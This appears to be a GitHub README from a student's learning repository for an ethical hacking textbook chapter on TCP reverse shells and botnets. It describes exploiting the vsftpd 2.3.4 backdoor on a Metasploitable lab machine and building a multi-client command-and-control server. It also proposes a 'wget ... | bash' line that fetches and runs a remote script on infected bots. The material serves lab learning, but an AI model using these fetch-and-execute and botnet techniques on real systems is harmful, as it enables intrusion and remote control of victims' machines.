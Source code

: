 # botNet
All of the code from my learnings in Chapter 4 of Ethical Hacking: A Hands on Introduction to Breaking In. Chapter 4 is titled: Crafting TCP Shells and Botnets  


In this chapter, we are taught about sockets and process communication. It explains how TCP handshakes work the type/way packets are exchanged between the client and the server. We then are taught about what a TCP reverse shell is. It is explained that since a lot of firewalls allow outgoing connections only, the solution as an attacker is to install a reverse shell on the victim machine that connects to the command and control server outside the network. Once this connection is made, you can send commands to the victim which are then executed.  It then gives us a diagram that shows how this works/is going to work as we work in the chapter. You can view it as 'diagram.png'.  

We then were taught how to use nmap to scan for open ports. We learned about some different scan types and flags for nmap, as well as the pros and cons of them. On the metasploitable server, we located an open tcp port 21 which has a vulnerable version of vsftpd (2.3.4) running. This is what we are going to exploit to gain access to the metasploitable machine so that we can load our reverse shell onto it. It is a backdoor that starts a shell running on port 6200 which we connect to and download reverseShell.py onto the victim machine.  

We also have to create a TCP server that does 2 main things and functions as our command and control server: shellServer.py
1. accept connection from client
2. send and receive commands
The problem with this TCP server is that it can only handle one connection. If our goal is to create a network of victim clients (botnet) then we need to have a TCP server that can handle multiple connections.

We create another TCP server that can handle multiple connections and the idea is that instead of sending and receiving individual commands to each bot, we want the bot to all receive the same command. After our command and control server receives a response, we want it to print the bot's IP address and the result of executing the command. What I have so far is in shellServerMulti.py.  The exercise is considered completed when this server reads from a file and sends the commands in that file to the clients. I know there are probably a lot of ways this can be done, but what i've done is have the filepath passed in as an argument when you start the server for example:  
```
kali@kali:~$ python3 shellServerMulti.py <filepath>
```
For some reason this is not working. I also am thinking that we can just execute this command once we have the client connect since we are using a reverse shell anyway:  
```
kali@kali~$ wget -O - <IP ADDRESS>:PORT/filepath/file.sh | bash
```
This could encapsulate the commands outside of the server code (this idea came to me this morning as I was putting together this github) and I wouldn't have to worry about parsing the file in python at all. The code would be super clean.  

Thank you for anyone taking the time to look over this stuff and offer advice, pointers, or contributions. Feel free to use and abuse all of this code.
